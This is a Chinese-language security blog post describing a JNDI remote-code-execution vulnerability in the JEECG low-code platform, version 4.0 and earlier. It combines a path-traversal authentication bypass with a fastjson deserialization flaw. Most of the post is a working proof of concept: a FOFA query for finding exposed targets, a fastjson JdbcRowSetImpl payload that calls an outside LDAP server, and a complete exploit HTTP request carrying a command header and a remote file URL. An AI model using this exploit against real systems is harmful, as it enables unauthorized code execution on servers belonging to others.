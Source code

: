 #  Jeecg存在JNDI代码执行漏洞   
原创 Hacker  0xh4ck3r   2025-01-15 06:15  
  
## Jeecg存在JNDI代码执行漏洞  
  
Jeecg (J2EE C ode G eneration)是一款基于代码生成器的低代码开发平台, 使用 JEECG 可以简单快速地开发出企业级的 Web 应用系统。目前官方已停 止维护。 JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。  
  
因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对 /api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行  
## fofa  
```
app="JEECG"

```  
## poc  
  
创建如下远程文件，其内容为fastjson代码执行的payload  
```
        {
            "a":{
                "@type":"java.lang.Class",
                "val":"com.sun.rowset.JdbcRowSetImpl"
            },
            "b":{
                "@type":"com.sun.rowset.JdbcRowSetImpl",
                "dataSourceName":"ldap://10.66.64.89:1389/8orsiq",
                "autoCommit":true
            }
        }

```  
```
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET

```  
  
  
  

